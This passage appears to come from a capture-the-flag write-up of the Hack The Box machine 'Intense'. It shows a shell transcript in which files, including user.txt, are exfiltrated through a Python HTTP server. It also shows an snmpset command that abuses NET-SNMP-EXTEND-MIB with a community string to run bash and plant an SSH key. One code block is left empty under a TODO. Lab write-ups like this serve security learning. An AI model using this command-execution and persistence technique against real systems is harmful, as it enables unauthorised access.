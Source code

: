 ```text
[sudo] password for Debian-snmp: 

Debian-snmp@intense:/$ cd home
cd home
Debian-snmp@intense:/home$ ls
ls
user
Debian-snmp@intense:/home$ cd user
cd user
Debian-snmp@intense:/home/user$ ls -la
ls -la
total 76
drwxr-xr-x 5 user user  4096 Jun 29 06:30 .
drwxr-xr-x 3 root root  4096 Nov 16  2019 ..
lrwxrwxrwx 1 root root     9 Nov 23  2019 .bash_history -> /dev/null
-rw-r--r-- 1 user user   220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 user user  3771 Apr  4  2018 .bashrc
drwx------ 2 user user  4096 Nov 16  2019 .cache
drwx------ 3 user user  4096 Nov 16  2019 .gnupg
-rwxrwxr-x 1 user user 13152 Nov 16  2019 note_server
-rw-r--r-- 1 user user  3928 Nov 16  2019 note_server.c
-rw-r--r-- 1 user user   807 Apr  4  2018 .profile
-rw-r--r-- 1 root root    75 Nov 23  2019 .selected_editor
drwxr-xr-x 2 user user  4096 Jun 29 09:31 .ssh
-rw-r--r-- 1 user user     0 Nov 16  2019 .sudo_as_admin_successful
-r--r--r-- 1 root root    33 Nov 16  2019 user.txt
-rw------- 1 root root 12427 Nov 23  2019 .viminfo
Debian-snmp@intense:/home/user$ python3 -m http.server 8099
python3 -m http.server 8099
Serving HTTP on 0.0.0.0 port 8099 (http://0.0.0.0:8099/) ...
10.10.15.100 - - [07/Nov/2020 18:25:43] "GET /note_server HTTP/1.1" 200 -
10.10.15.100 - - [07/Nov/2020 18:25:47] "GET /note_server.c HTTP/1.1" 200 -
10.10.15.100 - - [07/Nov/2020 18:26:00] "GET /user.txt HTTP/1.1" 200 -
```

Downloaded a few interesting files from `user`'s home folder...then lost my shell again when I cancelled the http server \(right after I realized I should have put my ssh key there!\)

TODO: Where is the note\_server.c code?

```text

```

Analysis of the note\_server.c code showed me that the program was looking for a connection to `127.0.0.1` on port 5001.  

```text
┌──(zweilos㉿kali)-[~/htb/intense]
└─$ snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c SuP3RPrivCom90 10.10.10.195 'nsExtendStatus."command"' = createAndGo 'nsExtendCommand."command"' = '/bin/bash' 'nsExtendArgs."command"' = "-c \"/bin/echo ${ssh_key} >> ~/.ssh/authorized_keys\""
NET-SNMP-EXTEND-MIB::nsExtendStatus."command" = INTEGER: createAndGo(4)
NET-SNMP-EXTEND-MIB::nsExtendCommand."command" = STRING: /bin/bash
NET-SNMP-EXTEND-MIB::nsExtendArgs."command" = STRING: -c "/bin/echo ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPbT4GbSUckWcD775fh2EvAIst9754Yn0+88VlmfbV9qXiCEUeCrHXiEFc1KYDYnx/3CEUgu8gby04mHtBdP6n8= zweilos@kali >> ~/.ssh/authorized_keys"
```
